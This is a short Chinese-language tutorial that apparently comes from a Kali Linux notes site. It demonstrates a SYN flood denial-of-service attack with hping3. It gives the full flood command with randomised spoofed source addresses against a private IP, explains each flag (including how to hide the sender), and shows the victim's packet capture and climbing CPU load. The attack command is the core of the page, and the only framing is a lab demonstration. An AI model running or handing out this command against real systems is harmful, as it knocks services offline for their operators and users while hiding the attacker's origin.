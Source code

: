# SYN洪水攻击：使用HPING3的DoS

## 1. 攻击端执行如下命令

```shell
hping3 -c 10000 -d 15 -S -w 64 -p 80 --flood --rand-source 192.168.205.106
```

```shell
参数说明：
-c：发送数据包的个数

-d：每个数据包的大小

-S：发送SYN数据包

-w：TCP window大小

-p：目标端口，你可以指定任意端口

--flood：尽可能快的发送数据包，不需要考虑显示入站回复。洪水攻击模式。

--rand-source = 使用随机性的源头IP地址。你还可以使用-a或–spoof来隐藏主机名。
```

## 2. 在被攻击端安装tcpdump抓包工具

```shell
# 执行下面命令抓取80端口数据
tcpdump -i ens33 -nnA 'port 80'
```

​	下图可以看到被攻击端不停的接收到数据包，以及cpu及系统负载逐渐升高

![image-20210818180315882](https://longlizl.github.io/kali相关/简单dos攻击/images/1.png)

![image-20210818175806570](https://longlizl.github.io/kali相关/简单dos攻击/images/2.png)